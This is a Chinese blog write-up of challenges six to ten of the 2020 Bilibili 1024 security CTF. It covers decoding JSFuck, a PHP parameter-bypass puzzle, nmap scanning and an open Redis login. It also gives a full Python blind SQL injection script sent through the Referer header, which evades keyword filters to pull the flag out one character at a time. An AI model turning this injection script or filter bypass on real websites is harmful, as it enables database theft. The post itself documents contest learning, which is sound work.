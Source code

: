 ﻿---
title: 哔哩哔哩 1024 安全挑战赛解题思路（后篇）
date: 2020/10/24
updated: 2020/10/24
category: 
- CTF
tag: 
- CTF
- 哔哩哔哩
---
又名 bilibili 猜谜竞赛。被 W 拖来玩了。还挺有意思的。

这里是第六到第十题的题解。

<!-- more -->

## 六~十  结束亦是开始

> 结束亦是开始
> 
> 题目地址： http://45.113.201.36/blog/single.php?id=1

第七题到第十题的题面都是这一段：

> 接下来的旅程
> 
> 需要少年自己去探索啦～

另外说一下，原来的 IP 地址是 `120.92.151.189`。

## 十

打开网站。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_10-59-51.png)](image/2020-10-24-bilibili-ctf/2020-10-26_10-59-51.png)

……？blog？？？

转了一圈什么都没找到。在百无聊赖的时候我顺手把网站里的 single 改成了 test。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_11-36-24.png)](image/2020-10-24-bilibili-ctf/2020-10-26_11-36-24.png)

草。是 JSFuck。

解码似乎解不出什么。直接复制进 console 里运行一下。

```bash
var str1 = "\u7a0b\u5e8f\u5458\u6700\u591a\u7684\u5730\u65b9";
var str2 = "bilibili1024havefun";
console.log()
```

转换一下。

> 程序员最多的地方

那肯定是 GitHub 啊！

打开 GitHub，直接搜索 `bilibili1024havefun`。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_11-50-50.png)](image/2020-10-24-bilibili-ctf/2020-10-26_11-50-50.png)

成功找到了一个 php [interesting-1024/end](https://github.com/interesting-1024/end)。点开看看。

```php
<?php

//filename end.php

$bilibili = "bilibili1024havefun";

$str = intval($_GET['id']);
$reg = preg_match('/\d/is', $_GET['id']);

if(!is_numeric($_GET['id']) and $reg !== 1 and $str === 1){
	$content = file_get_contents($_GET['url']);
	
	//文件路径猜解
	if (false){
		echo "还差一点点啦～";
	}else{
		echo $flag;
	}
}else{
	echo "你想要的不在这儿～";
}
?>
```

把网址的 simple 换成 end，果不其然输出了“你想要的不在这儿～”。这个 php 里也没有什么东西。

那么就看看参数。我不是很懂 PHP，所以得搜一下是什么意思。

搜了一下，`intval()` 用来获取变量的整数值。`preg_match()` 不用猜都知道是正则。它匹配到的时候会返回一个整型返回值，`1` 是一维数组。那这个 PHP 的代码就好懂了。它要求一个变量 `id[]` （必须是一维数组），值等于 `1`（如果不传值是不会返回正确的图片的）。然后后面还会跟一个 `url=`。

那么就猜一猜 `url=` 的值是什么。那我盲猜有 flag。

curl 传过去发现不对。那继续猜。随便加个后缀什么的，比如 `.txt`，把它变成文件路径。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)](image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)

拿到一张图片。存到本地的时候发现文件里带了串奇怪的字符串。估计八成跟 flag 有关。

用 `cat` 命令看一下这张图片。果然文件最后跟了串字符串。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)](image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)

提交到第六题……居然不对？一个个试过去发现居然是第十题的……草。

看完这个文件后我的 PowerShell 也乱码了……草（二度（

## 八

回到这个 IP 地址。

反正也没什么事情做了，用 nmap 扫一遍它开启的端口与服务。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_16-18-05.png)](image/2020-10-24-bilibili-ctf/2020-10-26_16-18-05.png)

扫出来一个 redis。直接用 IP 地址和端口登上去。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_16-18-26.png)](image/2020-10-24-bilibili-ctf/2020-10-26_16-18-26.png)

第八题结束。

## 六

超出我能力范围了。直接上源码。

```python
import requests
url = 'http://120.92.151.189/blog/single.php?id=1'
flag = ''
for i in range(1, 100):
    left = 33
    right = 128

    while right-left != 1:
        mid = mid=(left+right)//2
        payload = "0123'^if(substr((selselectect flag from flag),{i},1)>binary {mid},(selecselectt 1+~0),0) ununionion selecselectt 1,2#".format(
            i=i, 
            mid=hex(mid))
        headers = {
            'Referer': payload
        }
        r = requests.get(url=url, headers=headers)
        if len(r.text) == 5596:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print(flag)
```

运行结果如图。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_19-28-11.png)](image/2020-10-24-bilibili-ctf/2020-10-26_19-28-11.png)

## 七、九

仍然好奇下载下来的图片里，那个奇怪的字符串 `224a634752448def6c0ec064e49fe797`。

## 插曲

[![](image/2020-10-24-bilibili-ctf/2020-10-26_17-06-31.png)](image/2020-10-24-bilibili-ctf/2020-10-26_17-06-31.png)

还是免了吧。

## 用到的工具

- [在线unicode转中文,中文转unicode](https://www.bejson.com/convert/unicode_chinese/)
